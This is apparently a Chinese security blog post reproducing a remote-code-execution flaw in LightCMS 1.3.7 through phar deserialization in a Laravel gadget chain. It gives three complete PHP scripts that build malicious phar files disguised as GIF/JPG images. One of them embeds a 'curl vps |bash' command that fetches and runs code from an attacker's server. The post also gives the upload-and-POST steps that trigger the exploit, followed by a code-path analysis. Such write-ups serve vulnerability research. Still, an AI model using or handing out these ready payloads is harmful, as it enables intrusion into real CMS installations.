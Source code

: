 # 原创
：  LightCMS1.3.7-RCE漏洞

# LightCMS1.3.7-RCE漏洞

#### LightCMS1.3.7-RCE漏洞

## 环境搭建(Kali)

> 
参考之间的文章：[LightCMS1.3.5-任意文件读取&amp;RCE漏洞](https://blog.csdn.net/LYJ20010728/article/details/117755107?spm=1001.2014.3001.5502)


## 漏洞复现

> 
找一个 Laravel RCE 的 gadget，生成 phar 文件，exp如下


```
POP_1

&lt;?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;

        public function __construct($events, $event)
        {
            $this-&gt;events = $events;
            $this-&gt;event = $event;
        }

    }

    class BroadcastEvent
    {
        protected $connection;

        public function __construct($connection)
        {
            $this-&gt;connection = $connection;
        }
    }

}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;

        public function __construct($queueResolver)
        {
            $this-&gt;queueResolver = $queueResolver;
        }

    }
}

namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent('whoami');

    $dispater = new Illuminate\Bus\Dispatcher("system");

    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -&gt; stopBuffering();
    $phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;");
    $phar -&gt; addFromString('test.txt','test');
    $phar -&gt; setMetadata($PendingBroadcast);
    $phar -&gt; stopBuffering();
    rename('phar.phar','phar.jpg');
}

```

```
POP_2

&lt;?php
namespace Illuminate\Broadcasting
{
    use  Illuminate\Events\Dispatcher;
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this-&gt;events = new Dispatcher($cmd);
            $this-&gt;event=$cmd;
        }
    }

}


namespace Illuminate\Events
{
    class Dispatcher
    {
       protected $listeners;
       public function __construct($event){
           $this-&gt;listeners=[$event=&gt;['system']];
       }
    }
}
namespace{
    $phar = new Phar('phar.phar');
    $phar -&gt; startBuffering();
    $phar -&gt; setStub('GIF89a'.'&lt;?php __HALT_COMPILER();?&gt;');
    $o = new Illuminate\Broadcasting\PendingBroadcast($argv[1]);
    echo base64_encode(serialize($o));
    $phar -&gt; setMetadata($o);
    $phar -&gt; addFromString('test.txt','test');
$phar -&gt; stopBuffering();
}

```

```
POP_3

&lt;?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;

        public function __construct($events, $event)
        {
            $this-&gt;events = $events;
            $this-&gt;event = $event;
        }

    }

    class BroadcastEvent
    {
      protected $connection;

      public function __construct($connection)
      {
        $this-&gt;connection = $connection;
      }
    }

}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;

        public function __construct($queueResolver)
        {
          $this-&gt;queueResolver = $queueResolver;
        }

    }
}

namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent('curl vps |bash');

    $dispater = new Illuminate\Bus\Dispatcher("system");

    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -&gt; stopBuffering();
    $phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); 
    $phar -&gt; addFromString('test.txt','test');
    $phar -&gt; setMetadata($PendingBroadcast);
    $phar -&gt; stopBuffering();
    rename('phar.phar','phar.jpg');

}

```

> 
来到内容管理 - 新增文章内容，上传文件，就会得到一个这样的图片 url：`http://127.0.0.1:8000/upload/image/202106/qYUkjTWuFUMdMKo2hhp4DptwF23FkZJZ2nM1ixWy.gif`


> 
然后来到我们自己的 vps，新建一个 txt，内容为：`phar://./upload/image/202106/qYUkjTWuFUMdMKo2hhp4DptwF23FkZJZ2nM1ixWy.gif`


> 
然后 POST 提交到这个路由即可触发 phar 反序列化


## 漏洞分析

> 
在LightCMS1.3.5的任意文件读取漏洞被提出并且修复后，我们来分析一下作者修复所用的`fetchImageFile`函数


> 
跟进`fetchImageFile`函数，可以看到其使用curl来获取远程资源的内容，然后使用 Image:make 模块进行解析，并且对后缀也进行了严格的过滤，由于该后台是基于laravel框架开发，并且这个cms 后台还是有图片上传功能的，不妨我们尝试利用`phar反序列化实现RCE`


> 
我们跟进一下`isWebp函数` ，由于传入的不是Webp文件，所以会进入`Image::make($data);`，而且这个data变量也就是请求返回的内容，在获取到远程url的内容后，会调用`Intervention\Image\Facades\Image`的 make方法，对图片内容进行解析


> 
继续跟进到`vendor/intervention/image/src/intervention/Image/AbstractDriver.php`，通过 `init()`，然后传入 `decoder-&gt;init()`


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210610110502786.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210610110508504.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
可以看到 data 不仅可以是图片的二进制数据 ，还可以是这些数据格式，跟进 `initFromUrl`方法


> 
它继续读取了这个 url 的内容，然后作为 binary 数据处理


> 
跟进 `isUrl`，这个方法只是利用 FILTER VAR 判断是否为 url，这意味着前面的 http 协议可以替换成其他协议，比如 phar 协议，将 url 内容改成一个 phar 进行测试，依旧进到了这里并且传给了 file_get_contents()，即可以触发 `phar 反序列化`了

